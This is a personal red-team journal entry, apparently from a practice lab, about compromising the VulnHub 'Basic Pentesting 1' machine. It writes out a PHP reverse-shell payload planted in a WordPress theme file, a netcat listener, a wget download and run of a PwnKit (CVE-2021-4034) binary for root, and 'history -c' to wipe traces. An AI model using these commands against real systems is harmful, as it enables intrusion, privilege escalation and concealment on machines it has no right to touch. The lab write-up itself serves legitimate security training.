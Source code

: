 

## Red Team Journal – June 15, 2025

## 🖥️ Target: VulnHub – Basic Pentesting 1  

### Engagement Overview
**Target:** Basic Pentesting 1 (VulnHub)  
**Box IP:** 192.168.56.102  
**Attacker IP:** 192.168.56.10  
**Methodology:** Web enumeration → WordPress admin access → reverse shell → privesc via CVE-2021-4034 (PwnKit)  

---

### Objectives
- [x] Regain WordPress admin access
- [x] Inject PHP reverse shell via theme
- [x] Get reverse shell to Kali
- [x] Upgrade to interactive TTY
- [x] Enumerate for privilege escalation vectors
- [x] Exploit PwnKit to gain root
- [x] Clean up artifacts

---

### Initial Foothold

**Method:** PHP Reverse Shell via `404.php` in theme
  
**Payload used:**

	<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.10/4444 0>&1'"); ?>

Triggered with:

	curl "http://vtcsec/secret/wp-content/themes/twentyseventeen/404.php"

**Listener setup on Kali:**

	nc -lvnp 4444

Result:
Gained shell as www-data.

**Enumeration Highlights**

	uname -a
	cat /etc/os-release
	ls /home
	sudo -l
	find / -perm -4000 -type f 2>/dev/null

**Key Findings:**

    OS: Ubuntu 16.04.3 LTS

    Kernel: 4.10.0-28-generic

    Local user: marlinspike

    No sudo access from www-data

    SUID binary found: /usr/bin/pkexec (used by PwnKit)

**Privilege Escalation**

Exploit: CVE-2021-4034 (PwnKit)
Approach: Static binary hosted on attacker machine

On Kali:

	python3 -m http.server 8000

On Target:

	cd /tmp
	wget http://192.168.56.10:8000/PwnKit -O PwnKit
	chmod +x PwnKit
	./PwnKit

Result:

	root@vtcsec:/tmp# whoami
	root

**Cleanup Actions**

	rm /tmp/PwnKit
	history -c

Root shell obtained.
No persistence or root flag grabbed — purpose was shell lifecycle practice.


**Tools Utilized**

* nmap, gobuster, wpscan
* curl, netcat, wget, python3
* Metasploit (for ProFTPD attempt)
* Static PwnKit binary

**Key Takeaways**

* Always check /wp-login.php and XML-RPC for exposed WordPress logins
* Use encoded curl payloads to bypass broken command injection
* Static precompiled binaries save time vs. build errors (GLIBC mismatch)
* Do not use fg without setting proper terminal (stty raw -echo)
* After shell access, use enumeration before brute forcing — privilege escalation often lives in defaults



<!--stackedit_data:
eyJoaXN0b3J5IjpbNTg5MDE0OTEzXX0=
-->